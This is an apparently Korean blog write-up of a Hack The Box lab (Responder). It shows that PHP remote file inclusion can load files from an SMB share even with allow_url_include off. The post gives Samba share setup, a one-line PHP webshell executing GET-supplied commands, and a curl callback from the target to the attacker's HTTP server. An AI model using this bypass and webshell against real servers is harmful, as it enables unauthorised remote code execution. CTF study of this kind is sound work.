

Hack the box 문제 풀이 중 RFI를 테스트 하다 아래와 같은 내용을 확인하였다.


관련해서 내용을 찾아보니 php 구성 시 allow_url_include는 기본적으로 off 되어 원격 http 또는 ftp url을 로드하지 않도록 하여 공격을 방지한다. 
> Link: https://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html

하지만 allow_url_include와 allow_url_open가 모두 off로 설정 되어 있더라도 SMB URL 로드는 차단하지 않는다. PHP의 이러한 특징은 smb 공유를 통해 원격으로 php 웹쉘을 로드하는데 사용할 수 있다.


테스트를 위해 samba를 설치한다.
``` bash
# apt install samba
# smbpasswd -a 사용자이름
```

이후 공유하고자 하는 정보를 지정해야하며, 나의 경우 아래와 같이 `/etc/samba/smb.conf`의 맨 밑에 추가하였다. `systemctl restart smbd`를 통해 변경사항까지 반영해주어야 한다.
``` bash
[rfi]
   comment = rfi
   path = /home/user/rfi
   browseable = yes
   guest ok = yes
```

> NT_STATUS_ACCESS_DENIED 에러 해결: [링크](https://read-min.github.io/posts/linux-samba-install-NT_STATUS_ACCESS_DENIED/)


구성이 완료되었으니 실제 접근이 가능한지 테스트 해보자. 테스트 환경의 경우 [HTB Responder Write-up](https://read-min.github.io/posts/HTB-Responder-Write-up/) 에서 제공되는 서버이다. 우선 간단한 정보 조회 성 info.php를 만들어 공유 경로에 위치시킨다.
``` bash
┌──(root㉿kali)-[/home/user/rfi]
└─# cat info.php
<?php phpinfo(); ?>
```

대상 서버에서 공유된 경로(ex://10.10.15.52/rfi/info.php)에 접근하도록 지정 시 아래와 같이 php info가 정상적으로 나타난다.


이제 실제 oneline webshell을 통해 내부 구조를 파악해보자. 아래와 같이 설정 시 GET 메소드로 cmd 라는 변수를 통해 명령어를 입력 받고 실행한다.
``` bash
┌──(root㉿kali)-[/home/user/rfi]
└─# cat rfi.php
<?php system($_GET['cmd']); ?>
```

대상 서버에서 rfi.php로 접근하며 인자로 whoami를 준 경우 아래와 같이 나타난다.


조금 더 나아가 한줄웹쉘을 통해 http를 호출하는 코드도 가능하다. 아래와 같이 `cmd=curl {url}`을 입력할 경우 접근 되는 것을 확인 할 수 있다. 예시의 경우 python으로 간단한 http 서버를 띄우고 접근한 것이다.

``` bash
┌──(root㉿kali)-[/home/user]
└─# python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.94.209 - - [14/Feb/2024 05:44:41] "GET / HTTP/1.1" 200 -
```


이와 같이 allow_url_include가 false더라도 samba를 통해 접근 가능하게 할 수 있다.